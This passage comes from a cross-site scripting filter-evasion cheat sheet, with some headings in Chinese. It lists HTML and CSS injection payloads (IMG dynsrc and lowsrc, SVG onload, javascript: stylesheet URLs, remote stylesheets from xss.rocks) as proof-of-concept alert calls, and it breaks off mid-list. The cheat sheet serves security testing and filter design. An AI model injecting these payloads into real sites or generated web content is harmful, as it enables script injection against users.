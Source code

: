 ### IMG Dynsrc

~~~
<IMG DYNSRC="javascript:alert('XSS')">
~~~

### IMG lowsrc

~~~
<IMG LOWSRC="javascript:alert('XSS')">
~~~

### 从 Tag 注入

#### SVG object tag

~~~
<svg/onload=alert('XSS')>
~~~


### 从CSS注入

#### List-style-image

~~~
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
~~~

#### STYLE sheet

~~~
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
~~~

#### Remote style sheet

This only works in IE and Netscape 8.1+ in IE rendering engine mode. 

~~~
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
~~~

#### Remote style sheet part 2

As a side note, you can remove the end </STYLE> tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world: 

~~~
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
~~~

#### Remote style sheet part 3

According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). 
